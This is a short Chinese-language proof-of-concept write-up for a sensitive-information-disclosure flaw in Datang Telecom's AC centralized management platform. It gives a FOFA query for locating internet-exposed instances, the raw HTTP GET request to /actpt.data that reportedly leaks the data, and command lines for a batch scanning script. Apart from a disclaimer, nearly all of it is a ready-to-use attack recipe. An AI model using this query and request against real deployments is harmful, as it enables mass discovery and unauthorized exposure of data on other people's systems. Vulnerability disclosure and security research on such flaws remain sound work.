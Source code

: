# 大唐电信AC集中管理平台存在敏感信息泄漏漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

app="大唐电信AC集中管理平台" && fid="gmqJFLGz7L/7TdQxUJFBXQ=="

## 漏洞复现

POC:

**GET** /actpt.data HTTP/1.1

**Host:** 

**User-Agent:** Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36

**Accept:** text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Connection: Keep-Alive

Pragma: no-cache

Cache-Control: no-cache

Upgrade-Insecure-Requests: 1

**Accept-Encoding:** gzip, deflate

**Accept-Language:** zh-CN,zh;q=0.9

直接GET请求即可



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

![image-20231222130430538](assets/image-20231222130430538.png)